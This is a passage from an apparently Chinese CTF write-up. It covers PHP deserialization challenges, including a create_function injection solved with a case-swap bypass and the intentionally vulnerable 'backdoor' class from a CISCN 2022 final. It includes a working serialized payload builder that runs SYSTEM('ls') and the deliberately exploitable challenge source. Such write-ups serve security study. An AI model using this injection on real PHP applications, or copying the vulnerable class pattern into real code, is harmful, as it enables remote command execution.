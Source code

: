 这个题就是考`create_function注入`

绕过`preg_match_all`,看了正则表达式，就直接用大小写绕过就可以，因为linux对大小写敏感，所以最后读取flag利用`xxd`来读取即可

直接上构造反序列化的值

```php
<?php
class Game{
    private $a;
    protected $b;
    public function __construct($a,$b)
    {
        $this->a=$a;
        $this->b=$b;
    }
}
$result=new Game("create_function","1;}SYSTEM('ls');//");
echo urlencode(serialize($result));
```

##  国赛决赛--backdoor

这个题思路确实巧妙，那个imagick的利用我看过，但是没有想到

复现链接：https://github.com/AFKL-CUIT/CTF-Challenges/tree/master/CISCN/2022/backdoor

```php
<?php
highlight_file(__FILE__);
error_reporting(E_ERROR);
session_start();
class backdoor
{
    public $path = null;
    public $argv = null;
    public $class = "stdclass";
    public $do_exec_func = true;

    public function __sleep()
    {
        if (file_exists($this->path)) {
            return include $this->path;
        } else {
            throw new Exception("__sleep failed...");
        }
    }

    public function __wakeup()
    {
        if (
            $this->do_exec_func &&
            in_array($this->class, get_defined_functions()["internal"])
        ) {
            call_user_func($this->class);
            //var_dump($this->class);
        } else {
            $argv = $this->argv;
            $class = $this->class;
            new $class($argv);
        }
    }
}


$cmd = $_REQUEST['cmd'];
```